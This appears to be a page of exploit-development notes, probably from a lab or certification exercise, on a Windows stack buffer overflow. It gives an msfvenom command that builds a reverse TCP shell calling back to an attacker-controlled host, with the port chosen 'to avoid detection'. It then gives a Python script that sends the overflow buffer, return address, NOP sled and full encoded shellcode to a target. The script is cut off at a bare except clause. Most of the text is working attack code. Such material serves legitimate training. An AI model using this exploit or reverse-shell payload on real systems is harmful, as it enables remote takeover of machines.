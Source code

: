 ### Shellcode: Local Box

Let's generate shellcode, minus the bad characters we've identified, with a reverse tcp shell, to connect back to a listener under our control.

`msfvenom -p windows/shell_reverse_tcp LHOST=$LAN_IP LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c`

- `LHOST` is our local interface e.g. eth0
- we want port `80` to avoid detection
- `-b` dont use these characters for the shellcode
- `-f` format is C

run our listener in another terminal session- and when you run the exploit with your shellcode:

```python title="./payload-dev.py"

#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08" # found using mona
padding = "\x90" * 16
payload = (
"\xbd\xc6\x4a\xb9\xb1\xdb\xde\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x52\x31\x68\x12\x83\xc0\x04\x03\xae\x44\x5b\x44\xd2\xb1\x19"
"\xa7\x2a\x42\x7e\x21\xcf\x73\xbe\x55\x84\x24\x0e\x1d\xc8\xc8"
"\xe5\x73\xf8\x5b\x8b\x5b\x0f\xeb\x26\xba\x3e\xec\x1b\xfe\x21"
"\x6e\x66\xd3\x81\x4f\xa9\x26\xc0\x88\xd4\xcb\x90\x41\x92\x7e"
"\x04\xe5\xee\x42\xaf\xb5\xff\xc2\x4c\x0d\x01\xe2\xc3\x05\x58"
"\x24\xe2\xca\xd0\x6d\xfc\x0f\xdc\x24\x77\xfb\xaa\xb6\x51\x35"
"\x52\x14\x9c\xf9\xa1\x64\xd9\x3e\x5a\x13\x13\x3d\xe7\x24\xe0"
"\x3f\x33\xa0\xf2\x98\xb0\x12\xde\x19\x14\xc4\x95\x16\xd1\x82"
"\xf1\x3a\xe4\x47\x8a\x47\x6d\x66\x5c\xce\x35\x4d\x78\x8a\xee"
"\xec\xd9\x76\x40\x10\x39\xd9\x3d\xb4\x32\xf4\x2a\xc5\x19\x91"
"\x9f\xe4\xa1\x61\x88\x7f\xd2\x53\x17\xd4\x7c\xd8\xd0\xf2\x7b"
"\x1f\xcb\x43\x13\xde\xf4\xb3\x3a\x25\xa0\xe3\x54\x8c\xc9\x6f"
"\xa4\x31\x1c\x3f\xf4\x9d\xcf\x80\xa4\x5d\xa0\x68\xae\x51\x9f"
"\x89\xd1\xbb\x88\x20\x28\x2c\x1b\xa4\x30\xc6\x0b\xc7\x34\x16"
"\x9c\x4e\xd2\x7c\x0c\x07\x4d\xe9\xb5\x02\x05\x88\x3a\x99\x60"
"\x8a\xb1\x2e\x95\x45\x32\x5a\x85\x32\xb2\x11\xf7\x95\xcd\x8f"
"\x9f\x7a\x5f\x54\x5f\xf4\x7c\xc3\x08\x51\xb2\x1a\xdc\x4f\xed"
"\xb4\xc2\x8d\x6b\xfe\x46\x4a\x48\x01\x47\x1f\xf4\x25\x57\xd9"
"\xf5\x61\x03\xb5\xa3\x3f\xfd\x73\x1a\x8e\x57\x2a\xf1\x58\x3f"
"\xab\x39\x5b\x39\xb4\x17\x2d\xa5\x05\xce\x68\xda\xaa\x86\x7c"
"\xa3\xd6\x36\x82\x7e\x53\x56\x61\xaa\xae\xff\x3c\x3f\x13\x62"
"\xbf\xea\x50\x9b\x3c\x1e\x29\x58\x5c\x6b\x2c\x24\xda\x80\x5c"
"\x35\x8f\xa6\xf3\x36\x9a"
)
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
```
